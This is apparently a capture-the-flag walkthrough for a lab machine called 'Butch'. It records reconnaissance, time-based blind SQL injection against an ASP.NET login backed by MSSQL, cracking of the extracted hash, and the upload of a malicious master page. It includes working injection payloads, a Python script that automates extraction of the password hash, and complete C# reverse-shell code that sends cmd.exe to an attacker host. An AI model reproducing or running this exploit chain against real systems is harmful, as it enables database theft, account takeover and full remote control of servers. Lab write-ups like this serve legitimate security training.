 # Butch

### Port Scan
![port-scan](images/port-scan.png)

## Procedure
🔎 Port 450 is running a web server with a login page.\
![web-server](images/web-server.png)

🔎 Found a list of files on `/dev` using ffuf.\
![ffuf-scan](images/ffuf-scan.png)
![dir-listing](images/dir-listing.png)

🔎 The file `site.master.txt` looks like a copy of the login page that is being
served under an ASP.NET application.\
![site-master](images/site-master.png)

🔎 The username field seems vulnerable to SQL Injection (blind sqli).\
![sql-injection](images/sql-injection.png)

🔎 The database engine is indetified[^1] as MSSQL.

🔎 Some information can be extracted using a time-based approach[^2].\
`' IF LEN(@@version)>5 WAITFOR DELAY '00:00:05'--`

📝 Automating the extraction process.
```python
# scripts/sqli.py
import string
import requests
import time
import urllib.parse

url = 'http://192.168.198.63:450/'

headers = {'Content-Type': 'application/x-www-form-urlencoded'}

body = '__VIEWSTATE=%2FwEPDwUKLTQ0NDEwMDQ5Mg9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUeSW52YWxpZCB1c2VybmFtZSBvciBwYXNza2V5Li4uZGRkikLoDB%2B%2FpXdQqiz9h%2Bj5nHjE4OqEYro7hz%2FkDYh48fQ%3D&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAQ5uNqOYHbIeyi7LRhe1%2B7mG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb69X6Gyh7W5UwTVXhfLT4lC%2FUYzzbo01YDuyOekjcuLek%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox={}&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Enter'

result = ''
index = 1
tries = 0

while True:
    for i in (string.digits + string.ascii_lowercase + string.ascii_uppercase + string.punctuation.replace('%', '')):
        payload = f"'; IF (SELECT COUNT(password_hash) FROM users WHERE username='butch' AND password_hash LIKE '{result}{i}%')=1 WAITFOR DELAY '00:00:05'--"
        encoded = urllib.parse.quote_plus(payload)
        start = time.time()
        requests.post(url, headers=headers, data=body.format(encoded)) # , proxies={'http': 'http://localhost:8080'})
        end = time.time()
        
        elapsed = int(end - start)
        if (elapsed >= 5):
            result += i
            index += 1
            print(result)
            break

    if (i == string.punctuation[-1]):
        tries += 1
        index += 1
    
    if (tries == 2):
        print('exhausted')
        break
```

🔎 Information retrieved.
| Item     | Value                                                                      |
| :------- | :------------------------------------------------------------------------- |
| version  | microsoft sql server 2017                                                  |
| database | butcher                                                                    |
| table    | users                                                                      |
| columns  | user_id, username, password_hash                                           |
| row      | ?, butch, e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 |

🔑 Cracking the `password_hash` using https://crackstation.net/.
![cracked-password](images/cracked-password.png)

🔎 Login to the web application using the found credentials
`butch:awesomedude`.\
![file-upload](images/file-upload.png)

🔎 Uploading and requesting a test file.\
![upload-test](images/upload-test.png)

🔎 After some testing, noticed that files with .aspx and .asp ext are
invalidated.\
![upload-error](images/upload-error.png)


🔎 The file found earlier it's really a copy of the master page
(`site.master.cs`). Crashed the application several times trying to overwrite
its contents.

📝 Combining an example of the file[^3] with a simple reverse shell[^4] and
using the `namespace`, `class`, and imports from the original file to craft the
payload.
```csharp
// scripts/site.master.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;

namespace MyNamespaceMaster
{
    public partial class MyClassMaster : MasterPage
    {
        static StreamWriter streamWriter;

        protected void Page_Load(object sender, EventArgs e)
        {
            using(TcpClient client = new TcpClient("192.168.49.87", 450)) // change me
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}

```

💀 Uploading the file, setting up a netcat listener on port 450 and reloading
the page spawns a reverse shell as System.\
![reverse-shell](images/reverse-shell.png)

🏳 User flag.\
![user-flag](images/user-flag.png)

🏴 Administrator flag.\
![admin-flag](images/admin-flag.png)

### References
[^1]: https://null-byte.wonderhowto.com/how-to/sql-injection-101-fingerprint-databases-perform-general-reconnaissance-for-more-successful-attack-0184562/#jump-method1querydatabaseforversioninfo
[^2]: https://perspectiverisk.com/mssql-practical-injection-cheat-sheet
[^3]: https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs
[^4]: https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc